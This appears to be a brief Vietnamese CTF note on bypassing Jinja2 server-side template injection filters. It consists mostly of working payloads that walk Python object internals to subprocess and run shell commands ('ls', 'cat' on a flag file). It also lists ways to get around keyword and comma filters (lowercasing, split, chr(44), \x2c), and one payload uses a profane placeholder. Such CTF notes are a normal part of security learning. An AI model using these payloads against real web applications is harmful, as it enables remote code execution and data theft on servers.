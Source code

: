 SSTI bypass ',' filter 1 cái gì đó như base subclass.... hay filter '' "" ....


Filter [], base 
Jinja2
{{ [0].\_\_class__["\_\_bASe__".lower()].\_\_subclasses__()[262]\(["ls","/home/NinjaWorld/chall"],stdout=-1).communicate() }}

Python bth
getattr("[0].\_\_class__","["\_\_bASe__".lower()].\_\_subclasses__()[262]\(["ls","/home/NinjaWorld/chall"],stdout=-1).communicate()")

Gọi 1 object bất kì như là [0] hay ['aaaa'], chuyển toàn bộ bằng hàm lower rồi ghép chữ


Filter dấu , 

{{ [ditmemayhuuduc].\_\_class__["\_\_bASe__".lower()].\_\_subclasses__()[262]\(\*(["cat#/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')]+[-1]+[None]+[None]+[-1])).communicate() }}

nhiều cách chr(44), \x2c, []+[], "a#b".split("#") > [a,b]

\*(["cat#/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')]+[-1]+[None]+[None]+[-1])) 
tương đương
(["cat","/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')"],stdout=-1)


